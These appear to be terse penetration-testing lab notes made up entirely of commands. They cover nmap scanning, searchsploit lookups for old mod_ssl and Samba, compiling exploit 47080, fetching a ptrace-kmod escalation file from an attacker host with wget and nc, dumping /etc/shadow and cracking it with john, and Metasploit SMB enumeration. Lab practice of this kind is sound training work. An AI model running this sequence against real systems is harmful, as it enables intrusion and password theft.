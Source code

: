 ## Ports
nmap -vv -p- 192.168.91.6 -oN ports.txt

## Services
nmap -vv -sV -O -p 22,80,443,139,111,32768 192.168.91.6 -oN services.txt

## Metasploit
searchsploit mod_ssl
searchsploit samba 2.2.1
searchsploit -m 47080

gcc -o exploit_name 47080.c -lcrypto
./exploit_name 0x6b 192.168.91.6

sudo nc -lvnp 443 < ptrace-kmod.c
python3 -m http.server 80
wget 192.168.80.177/ptrace-kmod.c

cat /etc/shadow
cat /etc/passwd
unshadow passwd.txt shadow.txt > passwords.txt
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
john --show passwords.txt

msfconsole
search smb_version
use /auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.91.6
run

sudo tcpdump -s0 -n -i eth0 src 192.168.91.6 and port 139 -A -c 7 2>/dev/null
smbclient -L 192.168.91.6 


base64 -d reminder.txt > key.txt
nmap -sC -p 80 192.168.91.26

nmapAutomator.sh --host 192.168.90.92 --type All
nmap -vv -p- 192.168.91.6 -oN portas.txt
nmap -vv -sV -O -p 22,80,XXX 192.168.91.6 -oN servicos.txt
searchsploit OpenSSH 2.9p2
